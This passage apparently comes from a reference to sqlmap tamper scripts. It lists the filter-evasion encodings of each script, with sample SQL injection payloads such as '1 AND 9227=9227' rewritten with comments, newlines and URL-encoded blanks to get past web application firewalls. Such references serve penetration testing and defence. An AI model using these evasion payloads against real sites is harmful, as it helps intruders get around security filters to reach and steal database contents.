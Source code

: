 **Platform: Mssql、Mysql**
> example

```
1 AND 1=1 ==> 1%23%0AAND%23%0A9227=9227
```

### space2mysqlblank.py
**Function: 空格 ==> %2B、%0D、%0C**

**Platform: Mysql5.1**
> example

```
SELECT id FROM users ==> SELECT%0Bid%0DFROM%0Cusers
```

### space2mysqldash.py
**Function: 空格 ==> --%0A**

**Platform: Mssql、Mysql**
> example

```
1 AND 9227=9227 ==> 1--%0AAND--%0A9227=9227
```

### space2plus.py
**Function: 空格 ==> +**

**Platform: All**

> example

```
SELECT id FROM users ==> SELECT+id+FROM+users
```

### space2randomblank.py
**Function: 空格 ==> %0D、%0A、%0C、%09**

**Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 **

> example

```
SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers
```

### symboliclogical.py
**Function: and ==> %26%26**

**Platform: All**
> example

```
1 AND '1'='1 ==> 1 %26%26 '1'='1
```

